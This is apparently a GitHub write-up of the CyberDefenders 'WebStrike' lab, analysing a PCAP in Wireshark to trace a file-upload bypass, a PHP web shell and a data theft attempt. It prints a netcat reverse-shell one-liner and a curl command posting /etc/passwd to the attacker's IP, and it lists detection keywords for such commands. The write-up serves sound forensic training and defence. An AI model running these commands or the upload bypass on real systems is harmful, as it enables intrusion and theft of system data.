





# 🕵️‍♂️ WebStrike Lab — Official Walkthrough  

**Platform:** CyberDefenders  
**Tool Used:** Wireshark  
**Category:** Network Forensics | Web Attack Investigation  
**Objective:** Investigate a captured PCAP file to uncover attacker behavior, exploited vulnerabilities, reverse shell connection, and attempted data exfiltration.

---

In this forensic investigation, suspicious web activity was captured from a company’s web server and provided as a **PCAP file**. Analysis revealed an unauthorized **file upload**, **reverse shell execution**, and an **attempt to exfiltrate sensitive system data**.

Using **Wireshark**, the network capture was examined step-by-step to uncover how the attacker gained access, maintained persistence, and tried to steal data. This report explains the full process in a clear and structured way.

---

## 🌍 Attacker Identification & Origin

Opening the `WebStrike.pcap` file in **Wireshark** and navigating to  
`Statistics → Endpoints → IPv4` revealed two primary IP addresses:

- **Attacker:** `117.11.88.124`  
- **Victim Server:** `24.49.63.79`



Using [ipgeolocation.io](https://ipgeolocation.io), the attacker’s IP was traced to:

- **City:** Tianjin  
- **Country:** China  
- **Coordinates:** 39.13° N, 117.15° E  



🧠 *Interpretation:*  
The attack originated from **Tianjin, China**. This insight is valuable for **geo-blocking**, **threat intelligence**, and **regional trend analysis**.

---

## 🧭 Attacker’s User-Agent

Following an HTTP stream (`Follow → HTTP Stream`) revealed the attacker’s User-Agent string:

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0




🧠 *Insight:*  
The attacker spoofed a **Linux-based Firefox browser**, likely to blend in with legitimate web traffic and bypass simple detection filters.

---

## 💥 Exploited Vulnerability: File Upload Bypass

A focused Wireshark filter:
ip.src == 117.11.88.124 && http.request.method=="POST"

revealed multiple **POST requests** made by the attacker.

In the first request:
- File: `image.php`  
- Endpoint: `/reviews/upload.php`  
- Server response: **Invalid file format**

In the second request:
- File: `image.jpg.php`  
- Same endpoint  
- Server response: **File uploaded successfully**



🧠 *Finding:*  
The attacker bypassed the server’s validation by appending `.jpg` before `.php`.  
This allowed a **malicious PHP script** to be uploaded — a **web shell** that grants remote access.

---

## 📁 Malicious Upload Directory

Subsequent HTTP responses showed:

GET /reviews/uploads
→ 301 Moved Permanently → /reviews/uploads/


This confirmed that all uploaded files were stored under:




🧠 *Interpretation:*  
The directory `/reviews/uploads/` was the target storage path for all user-uploaded (and now malicious) files.

---

## 🔄 Reverse Shell Analysis

Examining the uploaded web shell (`image.jpg.php`) revealed embedded PHP code:

```php
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f");
?>


This command created a reverse shell using nc (netcat), connecting back to the attacker’s IP on port 8080.

🧠 Insight:
The attacker used port 8080 to establish remote command execution from the compromised web server.

📤 Data Exfiltration Attempt

Monitoring traffic on the reverse shell connection with this filte

(tcp.port==8080) && (ip.src==24.49.63.79)

curl -X POST -d /etc/passwd http://117.11.88.124:443/

🧠 Interpretation:
The attacker attempted to exfiltrate the /etc/passwd file to their machine over port 443.
Though this file doesn’t store password hashes, it lists user accounts — crucial for privilege escalation and reconnaissance.

🧠 Key Findings
Parameter	Value / Description
Attacker IP	117.11.88.124
Origin City	Tianjin, China
User-Agent	Mozilla/5.0 (Linux x86_64; Firefox/115.0)
Uploaded Web Shell	image.jpg.php
Upload Directory	/reviews/uploads/
Reverse Shell Port	8080
Exfiltrated File	/etc/passwd
🛡️ Defensive Recommendations

Harden File Uploads: Enforce strict validation on MIME type, extension, and content.

Deploy WAF Rules: Block .php, .asp, and .jsp uploads to user-accessible folders.

Restrict Egress Ports: Disallow unnecessary outbound connections (e.g., port 8080).

Monitor Reverse Shell Patterns: Detect keywords like nc, bash -i, or curl -d /etc/passwd.

Perform Directory Audits: Regularly inspect /reviews/uploads/ for unknown scripts.

Geo-Blocking: Limit access from high-risk countries.

Improve SIEM Detection: Create correlation rules for multiple failed upload attempts.

🧩 Lessons Learned

Attackers often exploit file upload vulnerabilities to gain code execution.

Reverse shells exploit outbound connections to bypass firewall restrictions.

Simple /etc/passwd exfiltration can expose valuable reconnaissance data.

Network forensics and packet analysis are key to understanding the full scope of an intrusion.

🧰 Skills Demonstrated

Network Forensics (Wireshark)

Reverse Shell & Data Exfiltration Analysis

HTTP/TCP Packet Inspection

Web Shell Exploit Detection

Threat Attribution & Geo-Intelligence

Cybersecurity Reporting & Documentation

👨‍💻 Author

Mohammad Sharuf Ali
📍 Abu Dhabi, UAE
📧 alimdsharuf86@gmail.com

🔗 LinkedIn

💻 GitHub
